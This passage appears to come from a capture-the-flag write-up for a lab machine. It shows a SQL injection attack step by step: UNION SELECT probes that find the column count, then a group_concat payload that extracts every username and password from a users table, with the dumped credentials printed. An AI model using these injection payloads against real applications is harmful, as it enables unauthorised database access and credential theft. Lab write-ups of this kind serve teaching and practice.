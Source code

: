 ```shell
' UNION SELECT '1'' UNION SELECT 1-- -
' UNION SELECT '1'' UNION SELECT 1,2-- -
' UNION SELECT '1'' UNION SELECT 1,2,3-- -
' UNION SELECT '1'' UNION SELECT 1,2,3,4,5-- -
```

Now we can craft our payload with group_concat() to get all the usernames and passwords:

```shell
' UNION SELECT '1'' UNION SELECT 1, group_concat(username),group_concat(password),4 from users-- -
```

This gave us the following results:

```shell

Title: Harry Potter and the Philosopher's Stone

When mysterious letters start arriving on his doorstep, Harry Potter has never heard of Hogwarts School of Witchcraft and Wizardry. They are swiftly confiscated by his aunt and uncle. Then, on Harry’s eleventh birthday, a strange man bursts in with some important news: Harry Potter is a wizard and has been awarded a place to study at Hogwarts. And so the first of the Harry Potter adventures is set to begin.

Author: J.K. Rowling
Title: admin,dev,amanda,maja,emil,test

THM{REDACTED},asd,Summer2019!,345m3io4hj3,viking123,testtest

Author: 4
```

There is the flag!

